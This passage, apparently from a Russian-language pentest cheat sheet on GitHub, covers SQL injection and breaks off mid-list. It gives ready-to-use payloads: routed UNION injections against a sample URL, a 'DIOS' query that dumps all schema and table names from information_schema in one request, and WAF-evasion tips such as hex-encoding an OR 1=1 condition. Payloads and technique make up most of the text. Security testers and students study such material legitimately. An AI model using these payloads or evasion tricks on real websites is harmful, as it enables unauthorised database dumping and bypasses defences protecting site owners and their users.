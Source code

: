 ```sql
http://example.com/index.php?id=1' UNION SELECT 1, 2, 3 -- //результата нет
http://example.com/index.php?id=1' union select 1,"2'",3 -- //обнаружили ошибку на месте столбца 2 - маршрутизируемая инъекция
http://example.com/index.php?id=1' union select 1,"2' union select 1,2,3,4",3 -- //успешная маршрутизируемая инъекция
```

### DIOS (Dump In One Shot)

DIOS - эффективная техника формирования дампа базы всего за один запрос.

```sql
http://172.23.58.183/?id=1' UNION
SELECT 1,
       (
       (
              SELECT (@a)
              FROM   (
                            SELECT(@a:=0x00),
                                   (
                                          SELECT (@a)
                                          FROM   (information_schema.columns)
                                          WHERE  (
                                                        @a)IN (@a:=concat(@a,'',table_schema,' >>> ',table_name,'<br>',''))))a)) -- -

```

### Обфускация запросов

Обфускация SQL-запросов — это метод, используемый для маскировки или изменения структуры SQL-запросов, чтобы обойти механизмы защиты, такие как WAF (Web Application Firewall) или другие фильтры, которые могут блокировать определенные символы и 
конструкции.

### Зачем нужна обфускация?

Обфускация необходима в случае, если:

- Существуют ограничения на использование определенных символов (например, кавычек или пробелов).
- Необходимо скрыть истинные намерения атакующего.
- Защитные меры на сервере активны и фильтруют подозрительные запросы.

### Методы обфускации

1. **Замена символов на Unicode или Hex:**
    
    Заменяя специальные символы на их представление в Unicode или hex, можно обойти простые фильтры.
    
    - Пример:
    `"1' OR '1'='1" -> "0x223127204f52202731273d273127"`
2. **Использование комментариев:**
    
    Добавление SQL-комментариев в запрос обфусцирует его.
    